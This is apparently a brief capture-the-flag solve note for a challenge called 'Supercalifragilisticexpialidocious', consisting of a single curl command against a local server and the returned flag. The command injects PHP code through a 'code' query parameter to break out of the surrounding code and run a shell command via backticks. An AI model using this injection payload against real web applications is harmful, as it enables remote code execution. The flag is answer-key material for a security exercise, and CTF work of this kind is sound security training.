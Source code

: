 # Supercalifragilisticexpialidocious solve

```
$ curl 'http://localhost:8888/?code=%7ddie(`/readflag`);/*'
DEVCORE{o1d_th1ng_1s_g00d}
```